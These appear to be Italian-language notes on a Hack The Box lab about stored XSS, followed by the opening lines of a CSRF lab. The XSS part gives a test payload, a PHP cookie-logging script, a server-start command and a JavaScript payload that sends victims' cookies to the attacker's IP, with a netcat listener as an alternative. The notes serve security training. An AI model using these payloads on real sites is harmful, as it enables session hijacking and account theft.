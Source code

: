 

# XSS

navigare su xss.htb.net

login con 

- Email: crazygorilla983 
- Password: pisces

in uno qualunque dei tre campi inseriamo il payload `"><img src=x onerror=prompt(document.domain)>`

click su share e vediamo che il sito e' vulnerabile alle StoredXSS

Crea una pagina php che logga i cookie (log.php) 

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>

```

questo script attende qualunque richiest con `?c=+document.cookie` e poi parsa e salva il cookie

avviamo il server php

```shell
$ php -S <VPN/TUN Adapter IP>:8000
```

e mettiamo come payload nel form di prima questo js 

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

nella shell (e nel file cookieLog.txt) possiao leggere il cookie

tutto questo si puo fare anche diversamente, solo con netcat `nc -nlvp 8000` senza la pagina php. in questo caso il risultato si legge solo nella shell, senza salvataggio su file.

# Cross-Site Request Forgery Example (lab_csfr1)
Navigate to http://xss.htb.net and log in to the application using the credentials below:

    Email: crazygorilla983
    Password: pisces
